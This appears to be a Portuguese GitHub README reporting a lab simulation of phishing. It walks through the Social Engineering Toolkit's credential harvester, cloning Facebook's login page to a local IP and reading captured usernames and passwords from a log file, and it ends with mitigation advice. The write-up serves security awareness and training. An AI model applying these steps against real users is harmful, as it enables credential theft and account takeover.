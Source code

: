 # Phishing-com-Kali-Linux
Este repositório contém um relatório técnico sobre a simulação de um ataque de phishing usando Kali Linux e o Social Engineering Toolkit (SET). O objetivo é demonstrar métodos de captura de credenciais em um ambiente controlado, promovendo a conscientização sobre segurança cibernética e fornecendo recomendações para prevenção de phishing.

## 1. Introdução
Este relatório documenta a execução de um experimento de segurança ofensiva utilizando o Kali Linux para simular um ataque de phishing. O objetivo é compreender os métodos utilizados por agentes maliciosos e reforçar o conhecimento sobre segurança cibernética, sempre dentro de um ambiente controlado e ético.

## 2. Ambiente de Testes
- **Sistema Operacional:** Kali Linux  
- **Ferramenta Utilizada:** Social Engineering Toolkit (SET)  
- **Método de Ataque:** Credential Harvester Attack + Site Cloner  
- **Alvo Simulado:** Página de login do Facebook (exemplo educacional)  

## 3. Configuração do Phishing no Kali Linux

### 3.1 Acessando o SEToolkit
Execute o comando abaixo para iniciar o SEToolkit:
bash
sudo setoolkit

Quando solicitado, selecione as seguintes opções:
1. **Social-Engineering Attacks**
2. **Website Attack Vectors**
3. **Credential Harvester Attack Method**
4. **Site Cloner**

### 3.2 Obtendo o Endereço da Máquina
Para que as vítimas acessem a página clonada, é necessário identificar o endereço IP do Kali Linux. Use:
bash
ifconfig

Ou no caso de versões mais recentes do Linux:
bash
ip a

Anote o endereço IP (exemplo: 192.168.0.105).

### 3.3 Clonando o Site Alvo
No SEToolkit, forneça o endereço da máquina (IP) e o site a ser clonado:
bash
Enter the IP address for the POST back in Harvester/Tabnabbing: 192.168.0.105
Enter the URL to clone: http://www.facebook.com

O SET gerará uma cópia da página de login e começará a capturar credenciais.

### 3.4 Captura de Credenciais
Quando um usuário inserir dados na página falsa, as credenciais serão armazenadas no seguinte arquivo:
bash
/var/www/html/harvester.log

Para visualizar:
bash
cat /var/www/html/harvester.log


## 4. Resultados
A execução do experimento demonstrou que um atacante pode enganar usuários desatentos para capturar credenciais. Abaixo está um exemplo fictício de credenciais capturadas:
POSSIBLE USERNAME FIELD FOUND: email=joao@gmail.com
POSSIBLE PASSWORD FIELD FOUND: pass=passwd


## 5. Medidas de Mitigação
Para prevenir ataques de phishing, recomenda-se:
1. **Ativar a autenticação em dois fatores (2FA).**
2. **Evitar clicar em links desconhecidos ou suspeitos.**
3. **Utilizar gerenciadores de senhas para evitar reutilização de credenciais.**
4. **Verificar se a URL do site está correta antes de inserir informações sensíveis.**
5. **Manter sistemas e navegadores atualizados para bloquear sites fraudulentos.**

## 6. Conclusão
Este experimento ilustra como um ataque de phishing pode ser realizado por agentes mal-intencionados. O conhecimento desses métodos permite que profissionais de segurança desenvolvam melhores estratégias de defesa. Sempre que realizar testes de segurança, certifique-se de que está em um ambiente controlado e autorizado.

**Nota:** Este estudo foi realizado com fins educacionais e não deve ser utilizado para atividades maliciosas.

